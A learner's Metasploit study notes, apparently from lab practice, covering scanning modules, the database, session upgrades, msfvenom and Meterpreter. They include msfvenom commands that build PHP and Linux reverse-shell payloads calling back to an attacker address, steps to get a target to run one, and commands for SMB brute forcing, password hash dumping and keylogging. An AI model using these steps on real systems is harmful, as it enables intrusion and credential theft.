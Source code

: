 ### Port Scanning 
- first enter `msfconsole`
  
  ```bash
  search portscan
  ```
  
- list potential port scanning modules
  
  ```bash
   use #
   ```
  
- in this case, we are using `scanner/portscan/tcp`
  
  ```bash
  show options
  ```
  
    - CONCURRENCY: Number of targets to be scanned simultaneously.
    - PORTS: Port range to be scanned. Please note that 1-1000 here will not be the same as using Nmap with the default configuration. Nmap will scan the 1000 most used ports, while Metasploit will scan port numbers from 1 to 10000.
    - RHOSTS: Target or target network to be scanned.
    - THREADS: Number of threads that will be used simultaneously. More threads will result in faster scans.
- nmap works inside the msfconsole

  
___


### UDP service Identificaftion
- `scanner/discovery/udp_sweep`
- this module will allow you to quickly identify services running over the UDP (User Datagram Protocol). This module will not conduct an extensive scan of all possible UDP services but does provide a quick way to identify services such as DNS or NetBIOS.


  ```bash
  setg RHOSTS [target_ip]
  ```


  - set the target ip globally

  ```bash
    run
  ```
  
  - runs the scanner
 
    
___


### SMB Scans
- SMB (Server Message Block) is a network protocol used for sharing files, printers, and other resources between computers.
- `scanner/smb/smb_version` or `scanner/smb/smb_enumshares`
- find SMB server details and list shared resources
- `http_version` module will find what http version, must change RPORT to the one you want to scan 
- `smb_login` brute forces the login
  - must `show options` and set up the wordlist file and the username then run


___


### Metasploit Database
- in an actual penetration testiing engagement, there will be likely have several targets. Metasploit has a database function to simplify project management


 ```bash
  systemctl start postgresql
  ```
 ```bash
  msfdb init
  ```
- launch `msfconsole`
  
 ```bash
  db_status
  ```

  check database status

 ```bash
  workspace
  ```

  list avaiable workspaces
  `-a` add a workspace
  `-d` delete a workspace
  EX:

 ```bash
  workspace -a tryhackme
  ```

 ```bash
  workspace [name]
  ```

  to switch between workspacaes

  
 ```bash
  workspace -h
  ```


  list avaiable options    
- `db_nmap` runs nmap and import the results to the metaspolit database
- resulted information can be retrived from `hosts` and `services`. the `-h` flag will give more options


___


### Example using the database
- pick a vulnerability scanner

 ```bash
  hosts -R
  ```

  uses the data we collected from db_nmap to import the RHOSTS value
- `run` or `exploit`
  
  ```bash
  services -S [service name]
  ```
  
  `-S` parameter to search for services in the envirement
  
  - HTTP: Could potentially host a web application where you can find vulnerabilities like SQL injection or Remote Code Execution (RCE). 
  - FTP: Could allow anonymous login and provide access to interesting files. 
  -  SMB: Could be vulnerable to SMB exploits like MS17-010
  - SSH: Could have default or easy to guess credentials
  -  RDP: Could be vulnerable to Bluekeep or allow desktop access if weak credentials were used.


___


### Vulnerability Scanning
- Identifiying a 'low hanging fruit' aka easily indentifiable and exploitable vulnerabilities that could allow us to gain a foothold on a system.
- thus, getting good at scanning and finding out what the target system's services are running and use the search function to search for exploits etc...
- `info` on any modules to have a better understanding of its use and purpose


___


### Exploitation
- Background the Session:
After getting initial access to a system, you "background" the current session to make it inactive but still accessible for upgrades.
`ctrl+z`

- Upgrade to Meterpreter Shell:
The `sessions -u [session ID]` command upgrades the current session to a Meterpreter shell.
Meterpreter is a powerful post-exploitation tool included with Metasploit. It gives you advanced capabilities like file searching, data collection, and system control.

- Check for Sessions:
Use `sessions` to list all available sessions. Here, session ID 2 now runs the Meterpreter shell.

- Switch to the Upgraded Session:
The command `sessions -i 2` interacts with session ID 2.

- Search for File:
Use `search -f [file]` to look for the file on the compromised system. It finds and gives you the file path.

- Read the File Content:
Use cat with double quotes around the file path to display the content

- `windows/gather/hashdump`
- needs to set to a meterpreter session to work


___


### Msfvenom
- replaced Msfpayload and Msfencode, allows you to generate payloads
- allow you to access all payloads available in the Metasploit framework. In many different formats too (PHP, exe, dll, etc...)

```bash
msfvenom -p php/reverse_php LHOST=10.0.2.19 LPORT=7777 -f raw > reverse_shell.php
```
1. `-p php/reverse_php`: Specifies the payload type. In this case, it's a PHP-based reverse shell.
  - `msfvenom -l payloads`: lists all available payloads
  - `msfvenom --list formats`: lists all avaiable output formats

2. `LHOST=10.0.2.19`: The attacker's IP address where the reverse shell will connect.

3. `LPORT=7777`: The port on the attacker's machine that the reverse shell will connect to.

4. `-f raw`: Specifies the output format. raw means the payload will be written in plain PHP code.

5. `> reverse_shell.php`: Redirects the generated payload into a file named reverse_shell.php.


___


### Example of a basic step for msfvenom (reverse shell exploit)
1. attacker creates a payload 
EX: 

```bash
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.10.115.52 LPORT=8888 -f elf > rshell.elf
```

2. the target must have that `rshell.elf` file on their machine (by upload or downloading from the target system etc...)
3. use `exploit/multi/handler` to receive incoming connection from the reverse shell file of the target machine
4. target excutes the `rshell.elf` file
5. we're in


___


### Meterpreter
- it runs on the target system but is not installed on it
- it runs in memory and not on its disk of the target system
- it will be seen as a process and not a file
- it encrypts with the server where metasploit runs, so if the target does not decrypt the encrypted traffic (ex: HTTPS) coming in and out, IPS and IDS solutions will not able to detect it
- `getpid` in meterpreter will get the process id of meterpreter
- will establish an encrypted TLS channel with the attack's system
- most antivirus software will detect it
- `help` for commands in meterpreter


___


### some common meterpreter commands that I don't recall right away but will probably need to use
- `Migrate`: can migrate to a different process (like word.exe, notepad.exe) and act like a keylogger, some versions will also offer `keyscan_start`, `keyscan_stop`, `keyscan_dump` right out of the box
- `hashdump` list content of the SAM database
- `search` locate files
- `shell` will launch a command-line shell on the target system
- `load` additional tools
- when using `cat "path to file"` make sure to include double quotes

